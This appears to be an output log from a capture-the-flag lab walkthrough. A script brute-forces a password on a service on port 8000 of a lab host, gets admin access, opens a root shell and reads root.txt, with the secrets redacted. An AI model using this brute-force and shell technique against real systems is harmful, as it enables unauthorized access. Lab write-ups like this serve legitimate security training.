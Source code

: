 ```shell
[3] trying: 1234567  
[3] trying: rockyou  
[3] trying: 12345678  
[*] Closed connection to 10.10.167.123 port 8000  
[+] Opening connection to 10.10.167.123 on port 8000: Done  
[4] trying: redacted  
Found valid password: redacted  
Received:  
Welcome Admin!!! Type "shell" to begin  
[*] Switching to interactive mode  
$ shell  
# $ id  
id  
uid=0(root) gid=0(root) groups=0(root)  
# $ ls  
ls  
pyrat.py  root.txt  snap  
# $ cat root.txt  
cat root.txt  
redacted  
# $    
[*] Interrupted  
[*] Closed connection to 10.10.167.123 port 8000
```
___
